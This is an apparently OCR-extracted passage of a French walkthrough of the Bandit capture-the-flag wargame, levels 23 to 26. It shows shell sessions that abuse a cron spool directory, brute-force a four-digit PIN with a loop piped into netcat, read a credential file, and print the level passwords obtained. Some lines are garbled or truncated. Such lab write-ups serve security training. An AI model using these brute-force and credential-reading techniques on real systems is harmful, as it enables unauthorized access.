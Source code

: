 - bandit23@bandit:/tmp/gxuvimr$ chmod g+s pass.sh
- bandit23@bandit:/tmp/gxuvimr$ ls -la
total 1164
drwxrwsrwx   2 bandit23 bandit23    4096 May  7 08:36 .
drwxrwx-wt 317 root     root     1179648 May  7 08:49 ..
-rwxr-sr-x   1 bandit23 bandit23      62 May  7 08:14 pass.sh
bandit23@bandit:/tmp/gxuvimr$ chown bandit24:bandit24 /var/spool/bandit24/pass.shchown bandit24:bandit24 /var/spool/bandit24/pass.shchown bandit24:bandit24 /var/spool/bandit
- bandit23@bandit:/tmp/gxuvimr$ cp pass.sh /var/spool/bandit24/foo/
- bandit23@bandit:/tmp/gxuvimr$ ls
pass.sh
- bandit23@bandit:/tmp/gxuvimr$ cat pass.sh
#!/bin/bash
- bandit23@bandit:~$ cd /tmp/gxuvimr
- bandit23@bandit:/tmp/gxuvimr$ ls -la

> total 1168
drwxrwsrwx   2 bandit23 bandit23    4096 May  7 08:54 .
drwxrwx-wt 330 root     root     1179648 May  7 09:01 ..
-rw-rw-r--   1 bandit24 bandit23      33 May  7 08:54 pass
-rwxr-sr-x   1 bandit23 bandit23      62 May  7 08:14 pass.sh

- bandit23@bandit:/tmp/gxuvimr$ cat pass
- mot de passe :  VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

# Niveau 24 → Niveau  25
 
- bandit24@bandit:~$ nc localhost 30002
>I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.

- bandit24@bandit:~$ pass=$(cat /etc/bandit_pass/bandit24)
- bandit24@bandit:~$ for pin in {0..9}{0..9}{0..9}{0..9}; do echo $pass $pin; done | nc localhost 30002 | grep -v Wrong
> I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
Exiting.

# Niveau 25 → Niveau  26
- sh -i ./bandit26.sshkey bandit26@localhost
- 
> Connection to localhost closed.

- bandit25@bandit:~$ grep bandit26 /etc/passwd
- bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
- bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

